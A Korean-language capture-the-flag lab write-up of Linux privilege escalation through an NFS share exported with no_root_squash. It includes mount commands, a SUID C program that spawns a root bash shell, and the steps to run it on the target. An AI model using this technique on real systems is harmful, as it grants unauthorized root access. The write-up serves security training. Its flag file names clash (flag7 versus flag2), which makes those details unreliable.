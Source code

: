 ## Privilege Escalation: NFS
> TryHackMe의 "Linux Privilege Escalation: NFS" 실습을 기반으로, NFS(Network File System)의 설정 오류를 이용해 SUID 바이너리를 업로드하고 루트 쉘을 획득한 과정을 상세히 정리하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.112.198
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: 잘못 설정된 NFS 공유 디렉토리 내에 SUID 바이너리를 업로드하여 루트 권한 획득
- **실습 일자**: 2025-04-20

---

### 2. 실습 과정

#### 2.1 SSH 접속 및 환경 분석
```bash
ssh karen@10.10.112.198
```
- 타겟 머신에 `karen` 계정으로 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

- `/etc/exports` 파일을 열어보니 NFS로 공유된 디렉토리(`/home/backup`, `/tmp`, `/home/ubuntu/sharedfolder`)가 `no_root_squash` 옵션과 함께 외부에 전체 공개되어 있는 것을 확인하였다.

![NFS 설정 확인](./screenshots/exports_nfs.png)

---

#### 2.2 NFS 공유 디렉토리 식별

- Kali 머신에서 `showmount -e 10.10.112.198` 명령어로 NFS 공유 목록을 조회하였다.

```bash
showmount -e 10.10.112.198
```
- `/home/ubuntu/sharedfolder`가 공유되고 있음을 확인하였다.

![showmount 결과](./screenshots/nfs_share.png)

---

#### 2.3 공유 디렉토리 마운트

- 공격 머신(Kali)에서 공유 디렉토리를 마운트할 임시 디렉토리를 생성하고, NFS로 공유된 디렉토리를 마운트하였다.

```bash
mkdir /tmp/attackmount
mount -o rw 10.10.112.198:/home/ubuntu/sharedfolder /tmp/attackmount
```
- `mount | grep attackmount` 명령어로 마운트가 정상적으로 이루어졌는지 확인하였다.

![NFS 마운트 확인](./screenshots/share_mount.png)

---

#### 2.4 루트 쉘 SUID C 파일 작성 및 컴파일
- `/tmp/attackmount` 디렉토리에 루트 쉘을 획득할 수 있는 C 코드를 작성하였다.
```c
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

![SUID 파일 작성](./screenshots/create_rootshell.png)


- 해당 코드를 `file.c`로 저장한 뒤, 정적 컴파일 및 SUID 권한 설정을 하였다.
```bash
gcc file.c -o file -static
chmod +s file
```

![SUID 파일 설정](./screenshots/compile_rootshell.png)

---

#### 2.5 타겟 머신에서 SUID 실행 및 루트 쉘, 플래그 획득
- 타겟 머신의 `/home/ubuntu/sharedfolder` 디렉토리로 이동하여 `file` 바이너리를 실행하였다.

```bash
cd /home/ubuntu/sharedfolder
./file
```

- 이 바이너리는 공격자가 공유 디렉토리를 통해 업로드한 것이며, `setuid(0)`을 통해 루트 권한을 획득할 수 있었다.

- 루트 쉘이 정상적으로 획득되었음을 확인하고, 시스템을 탐색하여 플래그 파일을 찾아 읽어냈다.

```bash
find / -name flag7.txt
cat /home/matt/flag7.txt
```

![루트 쉘 및 플래그 획득](./screenshots/root_flag.png)

---

### 3. 최종 결과
- `no_root_squash` 옵션이 설정된 NFS 공유 디렉토리를 통해 루트 권한 획득 성공 (`uid=0(root)`)
- 해당 설정은 공격자가 SUID 바이너리를 외부에서 업로드하고 실행할 수 있게 되어 매우 위험함.
- flag2.txt 파일에서 플래그 확보: `THM-89384012`

---

### 4. 배운 점
> ✅ 이번 실습을 통해, 단순한 파일 공유 설정 오류 하나가 전체 시스템 권한 상승으로 이어질 수 있음을 명확히 체감하였다. 특히 `no_root_squash` 설정은 공격자가 root 권한을 에뮬레이션할 수 있게 해주며, 실질적으로 시스템을 장악할 수 있는 강력한 백도어 경로가 된다.

